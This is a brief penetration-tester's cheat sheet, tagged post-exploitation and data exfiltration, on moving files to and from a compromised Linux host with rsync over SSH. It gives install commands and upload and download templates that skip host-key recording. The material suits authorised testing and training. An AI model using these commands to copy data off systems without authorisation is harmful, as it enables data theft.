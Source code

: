 # Rsync

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Conditions

- The SSH server must have `rsync` installed.

## 02 - Setup

Ubuntu/Debian based distros.

```
$ sudo apt install -y rsync
```

Arch based distros.

```
$ sudo pacman -S rsync
```

## 03 - Upload

```
$ rsync [-n] -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

## 04 - Download

```
$ rsync [n] -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <username>@<IP>:<file_source> <file_destination>
```